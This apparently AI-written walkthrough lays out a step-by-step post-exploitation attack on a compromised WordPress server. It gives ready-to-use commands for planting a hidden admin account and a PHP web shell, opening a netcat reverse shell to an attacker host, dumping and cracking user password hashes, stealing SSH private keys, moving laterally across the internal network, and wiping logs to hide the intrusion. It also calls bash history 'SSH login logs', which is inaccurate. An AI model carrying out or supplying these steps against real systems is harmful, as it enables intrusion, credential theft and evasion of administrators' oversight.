 ## **🔥 Post-Exploitation Attack Simulation: Taking Over a Compromised Web Server**
---

### **🎯 Scenario Recap**
We have successfully exploited vulnerabilities on **example.com (192.168.1.10)** using:
- **Apache Path Traversal (CVE-2017-15715)** to access `wp-config.php` 📄
- **WordPress Admin Panel Access** via weak password brute-force 🔑
- **Privilege Escalation (CVE-2019-0211)** to obtain **root access** 🔥

Now, let’s simulate **real-world post-exploitation tactics** used by attackers after gaining access.

---

## **🔍 Phase 1: Establishing Persistent Access**
💡 **Objective:** Maintain control over the compromised server **even if rebooted**.

### **🛠 Step 1.1: Creating a New Admin User**
📌 Since we have **WordPress admin access**, we can create a **new admin account**:
```bash
curl -X POST "http://example.com/wp-admin/user-new.php" \
--data "user_login=hacker&user_pass=SuperSecret123!&role=administrator"
```
📌 **Outcome:** We now have a hidden **admin account** in WordPress.

---

### **🛠 Step 1.2: Deploying a Web Shell (Backdoor)**
📌 **Upload a PHP web shell** (e.g., `wpshell.php`) for remote control:
```php
<?php
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
?>
```
🚀 **Upload this shell via the WordPress theme editor** or by replacing `index.php` in Apache.

📌 **Access it via:**
```bash
curl http://example.com/wpshell.php?cmd=whoami
```
✅ **Expected Output:** `www-data` (Apache process owner)

---

### **🛠 Step 1.3: Setting Up Reverse Shell**
💡 **A reverse shell allows us to execute commands as if we're inside the system.**

📌 **Step 1.3.1: Start a Netcat listener on our machine**
```bash
nc -lvnp 4444
```
📌 **Step 1.3.2: Run a PHP reverse shell from the web shell**
```bash
curl "http://example.com/wpshell.php?cmd=php -r 'system(\"nc -e /bin/bash attacker_ip 4444\");'"
```
✅ **Outcome:** We get a **remote interactive shell** on the compromised machine.

---

## **🔍 Phase 2: Extracting Sensitive Data**
💡 **Objective:** Exfiltrate critical credentials & user data.

### **🛠 Step 2.1: Dumping MySQL Database**
📌 **Since we have database credentials from `wp-config.php`**, we can dump user info:
```bash
mysql -u root -p"SuperSecurePassword" -e "SELECT user_login, user_pass FROM wp_users;" wordpress_db
```
✅ **Outcome:** We extract **hashed WordPress passwords**.

📌 **Step 2.1.1: Crack WordPress Passwords**
```bash
hashcat -m 400 wp_hashes.txt rockyou.txt --force
```
✅ **Outcome:** We **recover plaintext passwords** of real users.

---

### **🛠 Step 2.2: Searching for SSH Keys**
📌 If an admin uses **SSH key-based authentication**, we can steal keys:
```bash
find /home -name "id_rsa" -exec cat {} \;
```
✅ **Outcome:** We steal **private SSH keys** to access other servers.

---

## **🔍 Phase 3: Lateral Movement (Spreading the Attack)**
💡 **Objective:** Expand access to other systems in the network.

### **🛠 Step 3.1: Check Internal Network**
📌 **Find all active machines inside the network**:
```bash
nmap -sn 192.168.1.0/24
```
✅ **Outcome:** Identifies other internal systems we can attack.

📌 **Step 3.1.1: If SSH is enabled, try stolen credentials**
```bash
ssh -i id_rsa admin@192.168.1.20
```
✅ **Outcome:** If successful, we access a **new machine** inside the network.

---

## **🔍 Phase 4: Covering Tracks**
💡 **Objective:** Hide our presence from logs & alerts.

### **🛠 Step 4.1: Clearing Logs**
📌 **Delete Apache access logs:**
```bash
echo "" > /var/log/apache2/access.log
```
📌 **Delete SSH login logs:**
```bash
echo "" > ~/.bash_history
```
✅ **Outcome:** Erases all signs of our activity.

---

## **💀 Potential Real-World Impact**
| **Attack** | **Impact** |
|------------|-----------|
| **Persistent Backdoor** | Allows continuous control of the server |
| **Database Dump** | Steals user credentials and sensitive data |
| **Lateral Movement** | Expands attack to other systems |
| **Log Cleansing** | Hides traces from administrators |

🚨 **Would you like a report on how to defend against these attacks?** 🚨
